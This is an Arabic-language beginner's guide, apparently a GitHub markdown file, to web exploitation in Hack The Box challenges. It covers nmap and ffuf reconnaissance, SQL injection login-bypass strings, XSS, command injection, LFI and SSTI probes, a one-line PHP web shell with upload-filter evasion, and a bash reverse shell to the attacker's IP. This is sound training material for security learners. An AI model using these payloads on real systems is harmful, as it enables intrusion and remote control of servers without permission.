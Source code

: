 # 🕸 Web Exploitation Methodology for HTB (Beginner-Friendly)

## ⚠️ مقدمة
هذا الملف يقدم لك ميثودولوجية (منهجية) كاملة لحل تحديات **Hack The Box** المتعلقة باختبار اختراق المواقع (Web Exploitation). مناسب للمبتدئين، كل خطوة مشروحة بتفصيل عميق عشان تفهم مو بس تطبق.

---

## ✅ 1. جمع المعلومات (Reconnaissance)

### 🔹 1.1 فحص البورتات
نستخدم أداة `nmap` عشان نعرف البورتات المفتوحة على السيرفر:

```bash
sudo nmap -sS -sV -sC -A -T4 -Pn -p- -oN web_scan.txt <IP>
```

- `-p-` : يفحص كل البورتات (1 إلى 65535)
- `-sS` : يعمل فحص SYN (سريع وخفي)
- `-Pn` : يتجاهل فحص الـ ping (لو كان الجهاز يحجب الـ ping)
- `-T4` : لتسريع الفحص


### 🔹 1.2 فحص الخدمات الموجودة على البورتات
بعد ما نعرف البورتات، نستخدم هذا الأمر لمعرفة نوع الخدمات والإصدارات:

- `-sC` : يشغل سكربتات nmap الافتراضية
- `-sV` : يتعرف على إصدار كل خدمة
- `-oN` : لحفظ النتائج في ملف

### 🔹 1.3 استكشاف الملفات والمجلدات
نستخدم أدوات مثل `ffuf` أو `feroxbuster` للبحث عن صفحات مخفية:

```bash
ffuf -u http://<IP>/FUZZ -w /usr/share/wordlists/dirb/common.txt -e .php,.html,.txt
```

- `-w` : تحدد قائمة الكلمات لتجريبها
- `-e` : إضافات الملفات الممكنة

### 🔹 1.4 معرفة التقنيات المستخدمة
```bash
whatweb <IP>
wafw00f <IP>
```

- `whatweb` : يخبرك إذا الموقع يستخدم WordPress أو Laravel أو غيره.
- `wafw00f` : يكشف إذا فيه Web Application Firewall يحجب الطلبات.

---

## 🔍 2. تحليل منطق الموقع

- افتح الموقع في المتصفح، وشغّل أدوات المطور (DevTools):
  - Network → راقب الاتصالات
  - Console → تظهر أخطاء الجافاسكربت
  - Cookies & Local Storage → يمكن فيها توكن أو صلاحيات

- اقرأ كود HTML جيداً، مرات يكتبون فيه تعليقات مهمة.

---

## 🔐 3. تجاوز تسجيل الدخول (Authentication Bypass)

- جرب إدخال SQL Injection في الحقول:

```
' OR '1'='1 --
' OR '1'='1 --#
etc...
```

- جرب أسماء مستخدمين وكلمات مرور معروفة:
  - admin:admin
  - guest:guest

- جرب استخدام أدوات مثل Burp Suite لاعتراض وتعديل الطلبات.

---

## 🧪 4. اختبار الحقول يدوياً (Manual Testing)

- XSS:
```html
<script>alert(1)</script>
```

- Command Injection:
```
127.0.0.1;id
"username":"sb3lr; id;"
```

- LFI:
```
../../../../etc/passwd
```

- SSTI (Server Side Template Injection):
```
{{7*7}} أو ${7*7}
```

- تحقق من الهيدرز:
  - X-Forwarded-For
  - Host

---

## 🧷 5. تحليل ملفات JavaScript

```bash
curl http://<IP>/js/app.js
```

- شوف هل فيه endpoints مخفية أو توكنات أو كلمات مرور.

---

## 📤 6. ثغرات رفع الملفات

لو فيه مكان ترفع فيه ملف:
- جرب ترفع shell بامتداد `.php`
- جرب خداع الفلتر بأسماء مثل:
  - `shell.php.jpg`
  - `shell.phtml`

محتوى shell بسيط:

```php
<?php system($_GET['cmd']); ?>
```

ثم تنفذه:

```bash
curl http://<IP>/uploads/shell.php?cmd=id
```

---

## 🍪 7. التلاعب بالكوكيز (Cookies)

- إذا الكوكي مشفر بـ Base64، افكه وشف المحتوى.
- إذا الكوكي JWT، جرب تعدل الـ payload.
- مرات الكوكي يحتوي role=admin أو user_id.

---

## 🧱 8. هل الموقع CMS معروف؟

- WordPress؟ استعمل:

```bash
wpscan --url http://<IP> --enumerate u
```

- Joomla؟ استعمل:
```bash
droopescan scan joomla -u http://<IP>
```

---

## 🧠 9. الوصول الأولي (Initial Access)

لو حصلت استغلال ناجح (XSS, File Upload, RCE)، حاول تجيب **Reverse Shell**:

```bash
bash -i >& /dev/tcp/<YourIP>/4444 0>&1
```

وفي جهازك:
```bash
nc -lvnp 4444
```

---

## 🔼 10. تصعيد الصلاحيات (Web Privilege Escalation)

بعد ما تدخل:
- شوف الملفات القابلة للقراءة (config.php, .env)
- هل فيه ملفات dev؟ أو سكربتات نسوا يحذفوها؟
- هل فيه cron job تستدعي سكربت قابل للتعديل؟

---

## 🏁 11. الحصول على الـ Flags

- `user.txt` دايمًا يكون في `/home/<user>/`
- `root.txt` دايمًا يكون في `/root/`

استخدم `cat` لقراءتهم.

---

## 🧰 أدوات ثابتة

| المرحلة | الأدوات |
|---------|---------|
| فحص البورتات | nmap |
| اكتشاف الملفات | ffuf, feroxbuster |
| اختبار يدوي | Burp Suite, curl |
| فحص CMS | wpscan, droopescan |
| Shells | nc, revshells.com |
| قراءة ملفات | cat, strings, grep |

---

## ✅ نصيحة أخيرة

لا تحفظ الثغرات، افهم المنطق. كل ما فهمت كيف المبرمج أخطأ، كل ما قدرت تستغل بسهولة.

---
